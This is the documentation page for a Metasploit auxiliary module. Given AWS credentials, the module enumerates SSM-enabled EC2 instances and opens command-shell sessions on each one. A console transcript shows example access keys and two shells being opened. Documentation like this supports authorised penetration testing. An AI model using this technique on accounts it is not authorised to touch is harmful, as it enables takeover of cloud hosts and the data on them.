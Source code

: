 ## Vulnerable Application

Provided AWS credentials, this module will call the authenticated API of Amazon Web Services to list all SSM-enabled EC2
instances accessible to the account. Once enumerated as SSM-enabled, the instances can be controlled using out-of-band
WebSocket sessions provided by the AWS API (nominally, privileged out of the box). This module provides not only the API
enumeration identifying EC2 instances accessible via SSM with given credentials, but enables session initiation for all
identified targets (without requiring target-level credentials) using the CreateSession datastore option. The module also
provides an EC2 ID filter and a limiting throttle to prevent session stampedes or expensive messes.

## Verification Steps

1. Obtain AWS access keys
2. Start msfconsole
3. Set the `ACCESS_KEY_ID`, `SECRET_ACCESS_KEY`, `REGION`
4. Run the module, see EC2 instances

## Options

## LIMIT
Only return the specified number of results from each region.

## FILTER_EC2_ID
Look for specific EC2 instance ID.

## REGION
AWS Region (e.g. "us-west-2").

## Advanced Options

### CreateSession

Create a new session for every successful login.

## Scenarios

Enumerating EC2 instances in the US-East-2 region and opening a session on each one (`CreateSession` is True).

```
msf auxiliary(cloud/aws/enum_ssm) > set ACCESS_KEY_ID AKIAO5WK2W9TMZT7EAM5
ACCESS_KEY_ID => AKIAO5WK2W9TMZT7EAM5
msf auxiliary(cloud/aws/enum_ssm) > set SECRET_ACCESS_KEY pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
SECRET_ACCESS_KEY => pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
msf auxiliary(cloud/aws/enum_ssm) > run

[*] Checking us-east-2...
[+] Found AWS SSM host i-02cd668d50587bdcf (ip-172-31-42-215.us-east-2.compute.internal) - 172.31.42.215
[*] AWS SSM command shell session 3 opened (192.168.250.134:39005 -> 172.31.42.215:0) at 2023-05-22 16:43:03 -0400
[+] Found AWS SSM host i-074187bde1453613a (EC2AMAZ-HM7U6TS.WORKGROUP) - 172.31.44.170
[*] AWS SSM command shell session 4 opened (192.168.250.134:37231 -> 172.31.44.170:0) at 2023-05-22 16:43:05 -0400
[*] Auxiliary module execution completed
msf auxiliary(cloud/aws/enum_ssm) > 
```
